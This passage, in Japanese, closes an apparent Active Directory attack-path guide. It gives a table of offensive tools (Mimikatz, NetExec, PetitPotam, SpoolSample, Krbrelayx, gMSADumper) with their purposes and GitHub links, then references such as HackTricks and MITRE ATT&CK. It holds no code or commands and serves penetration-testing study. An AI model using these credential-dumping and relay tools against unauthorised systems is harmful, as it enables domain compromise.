| **Mimikatz** | 資格情報抽出 | [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) |
| **CrackMapExec / NetExec** | マルチプロトコルペンテスト | [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec) |
| **PetitPotam** | NTLM認証強制 | [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam) |
| **SpoolSample** | Printer Bug | [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample) |
| **Krbrelayx** | Kerberosリレー | [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx) |
| **gMSADumper** | GMSAパスワードダンプ | [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper) |

---

## 参考文献

- BloodHound ドキュメント: [https://bloodhound.readthedocs.io/](https://bloodhound.readthedocs.io/)
- The Dog Whisperer's Handbook: [https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
- ired.team — BloodHound: [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)
- HackTricks — Active Directory: [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/)
- SpecterOps Blog: [https://posts.specterops.io/](https://posts.specterops.io/)
- Certipy ドキュメント: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)
- MITRE ATT&CK — Active Directory: [https://attack.mitre.org/matrices/enterprise/](https://attack.mitre.org/matrices/enterprise/)
